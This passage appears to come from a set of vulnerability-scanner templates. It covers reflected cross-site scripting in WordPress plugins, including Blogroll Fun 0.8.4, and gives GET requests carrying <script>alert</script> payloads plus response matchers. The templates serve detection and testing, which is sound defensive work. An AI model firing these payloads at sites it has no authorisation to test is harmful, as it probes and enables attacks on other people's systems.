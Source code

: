 ### Step - 2

```
GET /wp-admin/index.php?a%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ?a">\<script>alert(1)\</script>&new-user-approve-settings

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Blogroll Fun-Show Last Post and Last Update Time 0.8.4 - Cross-Site Scripting

## Description

- WordPress Plugin Blogroll Fun-Show Last Post and Last Update Time 0.8.4 and possibly prior versions are prone to a cross-site scripting vulnerability because of a failure to properly sanitize user-supplied input. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.

- severity - high
- tags - wordpress,wp-plugin,xss,unauth,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/blogroll-fun/blogroll.php?k=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers
